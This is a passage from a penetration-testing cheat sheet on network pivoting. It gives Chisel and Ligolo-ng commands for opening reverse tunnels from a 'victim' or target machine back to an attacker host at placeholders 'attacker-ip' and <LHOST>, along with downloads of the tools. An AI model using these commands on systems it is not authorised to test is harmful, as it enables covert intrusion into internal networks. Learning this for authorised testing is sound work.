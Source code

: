    """
   chisel server -p 8000 --reverse
   """

2. **On the Victim Machine:**
   - Run the Chisel client to connect to the attacker and forward a local port to the remote attacker machine:

   ```bash
   ./chisel_1.7.7_linux_amd64 client attacker-ip:8000 R:1234:127.0.0.1:8443
   ```

In this example, traffic from the **attacker machine's port 1234** is forwarded to the **victim machine's port 8443**.

Chisel can be used for a wide range of port forwarding and tunneling scenarios, making it a must-have tool for network penetration testers.


## Ligolo-ng

> https://github.com/nicocha30/ligolo-ng

### Download Proxy and Agent

```c
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

### Prepare Tunnel Interface

```c
sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```
